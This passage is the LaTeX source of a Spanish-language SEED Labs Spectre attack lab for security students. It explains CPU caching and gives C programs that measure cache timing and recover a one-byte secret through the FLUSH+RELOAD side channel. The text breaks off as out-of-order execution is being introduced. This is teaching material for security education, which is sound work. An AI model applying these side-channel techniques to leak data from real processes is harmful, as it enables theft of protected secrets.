%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  Copyright by Wenliang Du.                                       %%
%%  This work is licensed under the Creative Commons                %%
%%  Attribution-NonCommercial-ShareAlike 4.0 International License. %%
%%  To view a copy of this license, visit                           %%
%%  http://creativecommons.org/licenses/by-nc-sa/4.0/.              %%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\newcommand{\commonfolder}{../../common-files}

\documentclass[11pt]{article}

\usepackage[most]{tcolorbox}
\usepackage{times}
\usepackage{epsf}
\usepackage{epsfig}
\usepackage{amsmath, alltt, amssymb, xspace}
\usepackage{wrapfig}
\usepackage{fancyhdr}
\usepackage{url}
\usepackage{verbatim}
\usepackage{fancyvrb}
\usepackage{adjustbox}
\usepackage{listings}
\usepackage{color}
\usepackage{subfigure}
\usepackage{cite}
\usepackage{sidecap}
\usepackage{pifont}
\usepackage{mdframed}
\usepackage{textcomp}
\usepackage{enumitem}
\usepackage{hyperref}


% Horizontal alignment
\topmargin      -0.50in  % distance to headers
\oddsidemargin  0.0in
\evensidemargin 0.0in
\textwidth      6.5in
\textheight     8.9in 

\newcommand{\todo}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{TODO: #1}}
\vspace{0.1in}
}


\newcommand{\unix}{{\tt Unix}\xspace}
\newcommand{\linux}{{\tt Linux}\xspace}
\newcommand{\minix}{{\tt Minix}\xspace}
\newcommand{\ubuntu}{{\tt Ubuntu}\xspace}
\newcommand{\setuid}{{\tt Set-UID}\xspace}
\newcommand{\openssl} {\texttt{openssl}}


\pagestyle{fancy}
\lhead{\bfseries SEED Labs}
\chead{}
\rhead{\small \thepage}
\lfoot{}
\cfoot{}
\rfoot{}


\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}
\definecolor{lightgray}{gray}{0.90}


\lstset{%
  frame=none,
  language=,
  backgroundcolor=\color{lightgray},
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
%  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=none,
  numberstyle=\tiny\color{gray},
  keywordstyle=\color{blue},
  commentstyle=\color{dkgreen},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  tabsize=3,
  columns=fullflexible,
  keepspaces=true,
  escapeinside={(*@}{@*)}
}

\newcommand{\newnote}[1]{
\vspace{0.1in}
\noindent
\fbox{\parbox{1.0\textwidth}{\textbf{Note:} #1}}
%\vspace{0.1in}
}


%% Submission
\newcommand{\seedsubmission}{
Debe enviar un informe de laboratorio detallado, con capturas de pantalla, para describir lo que ha hecho y lo que ha observado.
También debe proporcionar una explicación a las observaciones que sean interesantes o sorprendentes.
Enumere también los fragmentos de código más importantes seguidos de una explicación. No recibirán créditos aquellos fragmentos de códigos que no sean explicados.}

%% Book
\newcommand{\seedbook}{\textit{Computer \& Internet Security: A Hands-on Approach}, 2nd
Edition, by Wenliang Du. Para más detalles \url{https://www.handsonsecurity.net}.\xspace}

%% Videos
\newcommand{\seedisvideo}{\textit{Internet Security: A Hands-on Approach},
by Wenliang Du. Para más detalles \url{https://www.handsonsecurity.net/video.html}.\xspace}

\newcommand{\seedcsvideo}{\textit{Computer Security: A Hands-on Approach},
by Wenliang Du. Para más detalles \url{https://www.handsonsecurity.net/video.html}.\xspace}

%% Lab Environment
\newcommand{\seedenvironment}{Este laboratorio ha sido testeado en nuestra imagen pre-compilada de una VM con Ubuntu 16.04, que puede ser descargada del sitio oficial de SEED.\xspace}

\newcommand{\seedenvironmentA}{Este laboratorio ha sido testeado en nuestra imagen pre-compilada de una VM con Ubuntu 16.04, que puede ser descargada del sitio oficial de SEED.\xspace}

\newcommand{\seedenvironmentB}{Este laboratorio ha sido testeado en nuestra imagen pre-compilada de una VM con Ubuntu 20.04, que puede ser descargada del sitio oficial de SEED .\xspace}

\newcommand{\seedenvironmentC}{Este laboratorio ha sido testeado en nuestra imagen pre-compilada de una VM con Ubuntu 20.04, que puede ser descargada del sitio oficial de SEED. Sin embargo, la mayoría de nuestros laboratorios pueden ser realizados en la nube para esto Ud. puede leer nuestra guía que explica como crear una VM de SEED en la nube.\xspace}

\newcommand{\seedenvironmentAB}{
Este laboratorio ha sido testeado en nuestras imagenes pre-compiladas de una VM con Ubuntu 16.04 y otra con Ubuntu 20.04, que pueden ser descargadas del sitio oficial de SEED.\xspace}

\newcommand{\nodependency}{Dado que utilizamos contenedores para configurar el entorno de laboratorio, este laboratorio no depende estrictamente de la VM de SEED. Puede hacer este laboratorio utilizando otras máquinas virtuales, máquinas físicas o máquinas virtuales en la nube.\xspace}

\newcommand{\adddns}{You do need to add the required IP address mapping to
the \texttt{/etc/hosts} file.\xspace}






\newcommand{\seedlabcopyright}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{\small Copyright \copyright\ {#1}\ \ by Wenliang Du.\\
      Este trabajo se encuentra bajo licencia Creative Commons.
       Attribution-NonCommercial-ShareAlike 4.0 International License.
       Si ud. remezcla, transforma y construye a partir de este material,
       Este aviso de derechos de autor debe dejarse intacto o reproducirse de una manera que sea razonable para el medio en el que se vuelve a publicar el trabajo.
       }}
\vspace{0.1in}
}






\lhead{\bfseries SEED Labs -- Laboratorio del Ataque Spectre}

\def \code#1 {\fbox{\scriptsize{\texttt{#1}}}}

\begin{document}


\newcommand{\spectreFigs}{./Figs}

\begin{center}
{\LARGE Laboratorio del Ataque Spectre}
\end{center}


\seedlabcopyright{2018}



% *******************************************
% SECTION
% ******************************************* 
\section{Introducci´n}

Descubierta en el 2017 y publicada en Enero del 2018, el ataque Spectre explota una serie de vulnerabilidades críticas que existen en muchos procesadores modernos, incluyendo procesadores Intel, AMD y ARM~\cite{Kocher2018spectre}.
Estas vulnerabilidades le permiten a un programa romper con la isolación inter y intra proceso, por lo que un programa malicioso puede leer data de un area de memoria que no le pertenece. En un escenario normal tal acceso no es permitido debido a las protecciones de hardware (para la isolación inter-proceso) o protecciones de software (para la isolación intra-proceso), pero esta vulnerabilidad existente a nivel diseño de las CPUs permite evadir este tipo de proteccioness. Dado que esta vulnerabilidad existe a nivel de hardware, es muy difícil resolver el problema de raíz, al menos que se cambie el procesador de la PC. La vulnerabilidad Spectre representa un tipo especial de falla en el diseño de los CPUs, junto con la vulnerabilidad Meltdown, nos proveen una invaluable lección para la educación de la seguridad.

Discovered in 2017 and publicly disclosed in January 2018, the Spectre
attack exploits critical vulnerabilities existing in many modern
processors, including those from Intel, AMD, and
ARM~\cite{Kocher2018spectre}. The vulnerabilities
allow a program to break inter-process and intra-process isolation, so a
malicious program can read the data from the area that is not accessible to
it.  Such an access is not allowed by the hardware protection mechanism
(for inter-process isolation) or software protection mechanism (for
intra-process isolation), but a vulnerability exists in the design of CPUs
that makes it possible to defeat the protections.  Because the flaw exists
in the hardware, it is very difficult to fundamentally fix the problem,
unless we change the CPUs in our computers. The Spectre vulnerability
represents a special genre of vulnerabilities in the design of CPUs. Along
with the Meltdown vulnerability, they provide an invaluable lesson for
security education. 

\underline{Objetivos del Aprendizaje} El objetivo de este laboratorio es que los estudiantes puedan aprender y logren experiencia en el Ataque Spectre. El ataque por sí mismo es algo sofisticado, es por eso que para una mejor compresión del mismo y de como atacarlo, lo hemos fragmentado en pequeños pasos. Una vez que los estudiantes entiendan cada uno de los pasos, no debería de resultarles difícil reunir todos los elementos y proceder a realizar el ataque. Los estudiantes usarán el Ataque Meltdown para mostrar en pantalla/obtener e imprimir un dato secreto guardado dentro del kernel.

Este laboratorio cubre los siguientes tópicos:


\begin{itemize}[noitemsep]
\item Ataque Spectre
\item Ataque Side channel
\item CPU caching
\item Ejecución fuera de orden y Branch Prediction dentro de la microarquitectura del CPU
\end{itemize}



\paragraph{Lecturas y Videos.}
Para una cobertura más detallada sobre el ataque Spectre puede consultar:

\begin{itemize}
\item Capítulo 14 del libro de SEED, \seedbook
\item Sección 8 del curso de SEED en Udemy, \seedcsvideo
\end{itemize}


\paragraph{Entorno de Labooratorio.} \seedenvironmentAB

Al usar este laboratorio, los instructores deben de tener en cuenta que:
Primero, aunque la vulnerabilidad Spectre es una falla común de diseño dentro de los CPUs Intel, AMD y ARM, este laboratorio ha sido solamente testeado en CPUs Intel.
Segundo, Intel está trabajando en la solución de esta vulnerabilidad, por lo que si un estudiante usa máquina con un procesador Intel muy nuevo, el ataque puede que no funcione. Hasta Mayo del 2021 no se reportaron problemas pero a medida que pasa el tiempo puede que esto cambie.

\paragraph{Agradecimientos} Este laboratorio ha sido desarrollado con la ayuda de 
Hao Zhang y Kuber Kohli, estos estudiantes son estudiantes graduado en el Departamento de Ingeniería Electrónica y Ciencias de la Computación de la Universidad de Syracuse.


% *******************************************
% SECTION
% ******************************************* 
%\section{Code Compilation}
%\section{Tasks 1-2: Side Channel Attacks}


\newcommand{\sideChannelFigs}{../Meltdown_Attack/Figs}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  Copyright by Wenliang Du.                                       %%
%%  This work is licensed under the Creative Commons                %%
%%  Attribution-NonCommercial-ShareAlike 4.0 International License. %%
%%  To view a copy of this license, visit                           %%
%%  http://creativecommons.org/licenses/by-nc-sa/4.0/.              %%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% *******************************************
% SECTION
% *******************************************
\section{Compilación del Código}
\label{sidechannel:sec:compilation}

Para la mayoría de nuestras tareas, necesitará agregar la opción \texttt{-march=native} a la hora de copilar el código con \texttt{gcc}. La opción \texttt{march} le indica al compilador que debe activar todas el conjunto de  instrucciones soportadas por la máquina en donde se va a ejecutar este código.
Por ejemplo, compilaremos \texttt{myprog.c} usando el siguiente comando:

\begin{lstlisting}
$ gcc -march=native -o myprog myprog.c
\end{lstlisting}



% *******************************************
% SECTION
% ******************************************* 
\section{Tarea 1 y 2: Ataque de Side Channel usando la caché del CPU}

Los ataques Meltdown y Spectre usan la caché del CPU como side channel (canal encubierto) para robar información que se supone protegida. La técnica usada en este ataque de side channel se llama FLUSH+RELOAD~\cite{Yarom2014}. 
Primero estudiaremos esta técnica. El código desarrollado en las tareas siguientess serán usados como base para futuras tareas.

La caché del CPU es una caché a nivel hardware usada por la CPU de una computadora para reducir el tiempo promedio de acceso a los datos en la memoria principal. Aceder a los datos en la caché del CPU es mucho más rápido que hacerlo en la memoria principal. Cuando los datos son obtenidos de la memoria principal por lo general son cacheados por la CPU, por lo que si se esos datos se usan nuevamente el tiempo de acceso será mucho más rápido. Ademas cuando la CPU necesita acceder a cierta porción de datos, primero busca en su caché. Si los datos están ahí (caché hit) serán obtenidos directtamente de esa caché de otra forma la CPU irá a la memoria principal para obtenerlos. El tiempo que se usa en la última operación es significativamente más alto. La mayoría de los CPUs modernos poseen estas caches.


\begin{figure}[htb]
\centering

\includegraphics[width=0.9\textwidth]{\sideChannelFigs/cachehitmiss.pdf}
\caption{Cache hit and miss}
\label{sidechannel:fig:cachehitmiss}
\end{figure}


\subsection{Tarea 1: Leyendo de la caché vs Memoria }

La memoria caché es usada por los procesadores para acelerar el tiempo de acceso a los datos. Las memorias caches son más rapidas en comparación a la memoria principal.
Veamos el tiempo diferencial. En el siguiente código (\texttt{CacheTime.c}), tenemos un arreglo de tamaño \texttt{10*4096}. Primero accedemos a dos de sus elementos \texttt{array[3*4096]} y \texttt{array[7*4096]}. Lás páginas que contienen estos dos elementos serán cacheadas. Luego procederemos a leer los elementos desde \texttt{array[0*4096]} hasta \texttt{array[9*4096]} y medireos el tiempo de lectura usado en la memoria.
La Figura \ref{sidechannel:fig:cachehitmiss} ilustra la diferencia.
En la Línea \ding{192} del código usado se realiza la lectura del contador del timestamp del CPU (TSC) antes de que realizar la lectura en memoria, mientras que en la Línea \ding{193} se lee el contador después de realizar la lectura en memoria. La diferencia de tiempo (expresada en el números de ciclos de CPU), representa el tiempo de lectura en memoria.
Cabe destacar que el proceso de cacheo se hace a nivel bloque, no a nivel de byte. El tamaño habitual de un bloque de caché son 64 bytes. Hemos usado \texttt{array[k*4096]}, para que los dos elementos que son cacheados no estén ubicados en el mismo bloque de la caché. 


\begin{lstlisting}[caption=\texttt{CacheTime.c}]
#include <emmintrin.h>
#include <x86intrin.h>

uint8_t array[10*4096];

int main(int argc, const char **argv) {
  int junk=0;
  register uint64_t time1, time2;
  volatile uint8_t *addr;
  int i;
  
  // Initialize the array
  for(i=0; i<10; i++) array[i*4096]=1;

  // FLUSH the array from the CPU cache
  for(i=0; i<10; i++) _mm_clflush(&array[i*4096]);

  // Access some of the array items
  array[3*4096] = 100;
  array[7*4096] = 200;

  for(i=0; i<10; i++) {
    addr = &array[i*4096];
    time1 = __rdtscp(&junk);                  (*@\ding{192}@*)
    junk = *addr;
    time2 = __rdtscp(&junk) - time1;          (*@\ding{193}@*)
    printf("Access time for array[%d*4096]: %d CPU cycles\n",i, (int)time2);
  }
  return 0;
}
\end{lstlisting}

Por favor compile el siguiente código usando \texttt{gcc -march=native
CacheTime.c} y ejecútelo. ¿Es más rápido acceder a \texttt{array[3*4096]} y \texttt{array[7*4096]} que acceder a otros elementos? Debe ejecutar el programa al menos 10 veces y describir sus observaciones. Dado este experimento debe de encontrar un valor umbral que pueda ser usado para distinguir entre estos dos tipos de acceso en memoria: acceder a los datos desde la caché versus acceder a los datos desde la memoria principal. Este umbral es importante para el resto de las tareas en este laboratorio.

% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Tarea 2: Usando la caché como Side Channel}


\begin{figure}[htb]
\centering

\includegraphics[width=0.9\textwidth]{\sideChannelFigs/flushreload.pdf}
\caption{Ataque Side Channel}
\label{sidechannel:fig:flushreload}
\end{figure}

El objetivo de esta tarea es usar el side channel para extraer un valor secreto usado por la función víctima. Asuma que existe una función víctima que usa un valoor secret como índice para cargar algunos valores de un arreglo. También asuma que ese valor secreto no puede ser accedido desde afuera. Nuestro objetivo es usar side channels para obtener este valor secreto. Esta técnica llamada FLUSH+RELOAD~\cite{Yarom2014}. Figura \ref{sidechannel:fig:flushreload} ilustra esta técnica que se conforma en tres pasos:

\begin{enumerate}[noitemsep]

\item Hace un FLUSH de todo el arreglo en la memoria caché para asegurarse que el arreglo no este cacheado.

\item Invoca la función víctima, que accede a uno de los elementos del arreglo basado en el valor del secreto. Esta acción provoca que este elemento sea cacheado.

\item Hace un RELOAD de todo el arreglo y mide el tiempo que toma en hacer el reload por cada uno de los elementos que contiene el arreglo. Si el tiempo de carga de un elemento específico del arreglo es más rápido, lo más probable es que ese elemento este dentro de la ache.
Este elemento debe ser el que usa la función víctima. 
Debemos de averiguar cual es su valor secreto.
\end{enumerate}

El siguiente programa usa la técnica FLUSH+RELOAD para encontrar un valor secreto de 1 byte ubicado en la variable \texttt{secret}. Dado que existen 256 valores posibles para un secreto de 1 byte, necesitamos mapear cada valor en un elemento diferente dentro del arreglo. La forma naive de hacer es definir un arreglo de 256 ellementos (es decir \texttt{array[256]}). Sin embargo, esto no va a funcionar. El cacheo se hace a nivel blooque, no a nivel bbyte. Si se accede a \texttt{array[k]} un blooque de memoria que contiene este elemento será cacheado junto con los elementos adyacentes del arreglo \texttt{array[k]}, dificultando la inferencia de cual es el valor secreto.
Para solucionar este problema, hemos creado un arreglo de \texttt{256*4096} bytes, dado que \texttt{4096} es mucho mayor en tamaño que el bloque default de la caché (64 bytes), de esta forma nos aseguramos que no existan elementos adyacentes en el mismo bloque por lo que \texttt{array[i*4096]} y \texttt{array[j*4096]} estarán en diferentes bloques.

Dado que  \texttt{array[0*4096]} puede caer en el mismo bloque de caché que las variables de memoria adyacentes, puede ser accidentalmente cacheado durante el proceso de cacheo de esas variabbles. Por otro lado debemos evitar usar  \texttt{array[0*4096]} en el método de FLUSH+RELOAD (para otro índice \texttt{k}, \texttt{array[k*4096]} no hay problema).
Para hacer esto consistente dentro del programa, usamos \texttt{array[k*4096 + DELTA]} para todos los valores \texttt{k} donde \texttt{DELTA} es una constante ya definida con el valor \texttt{1024}. 


\begin{lstlisting}[caption=\texttt{FlushReload.c}, label={sidechannel:list:flushreload}]
#include <emmintrin.h>
#include <x86intrin.h>

uint8_t array[256*4096];
int temp;
unsigned char secret = 94;

/* cache hit time threshold assumed*/
#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

void flushSideChannel()
{
  int i;

  // Write to array to bring it to RAM to prevent Copy-on-write
  for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 1;


  // Flush the values of the array from cache
  for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 +DELTA]);
}

void victim()
{
  temp = array[secret*4096 + DELTA];
}

void reloadSideChannel() 
{
  int junk=0;
  register uint64_t time1, time2;
  volatile uint8_t *addr;
  int i;
  for(i = 0; i < 256; i++){
     addr = &array[i*4096 + DELTA];
     time1 = __rdtscp(&junk);
     junk = *addr;
     time2 = __rdtscp(&junk) - time1;
     if (time2 <= CACHE_HIT_THRESHOLD){
         printf("array[%d*4096 + %d] is in cache.\n", i, DELTA);
         printf("The Secret = %d.\n",i);
     }
  }	
}

int main(int argc, const char **argv) 
{
  flushSideChannel();
  victim();
  reloadSideChannel();
  return (0);
}
\end{lstlisting}


Por favor compile el programa usando \texttt{gcc} ejecútelo (Vea la Sección \ref{sidechannel:sec:compilation} para las instrucciones de compilación).
Debe de nootar que esta técnica no es 100\% precisas y puede que los resultados que observa no sean los esperados en muchas instancias de su ejecución.
Ejecute el programa al menos 20 veces y cuenta cuantas veces obtiene el valor secreto de forma correcta. Puede ajustar el valor umbral \texttt{CACHE\_HIT\_THRESHOLD} al usado en la Tarea 1 (en este código se usa 80).






% *******************************************
% SECTION
% ******************************************* 
\section{Tarea 3: Ejecución Fuera de Orden y Branch Prediction}

The objective of this task is to understand the out-of-order execution
in CPUs. We will use an experiment to help students observe
such kind of execution. 



\subsection{Ejecución Fuera de Orden} 

The Spectre attack relies on an important feature implemented in most
CPUs.  To understand this feature, let us see the following code. 
This code checks whether \texttt{x} is less than \texttt{size}, if so,
the variable \texttt{data} will be updated. Assume that the value of
\texttt{size} is 10, so if \texttt{x} equals \texttt{15}, 
the code in Line 3 will not be executed.  

\begin{lstlisting}
1  data = 0;
2  if (x < size) {   
3     data = data + 5; 
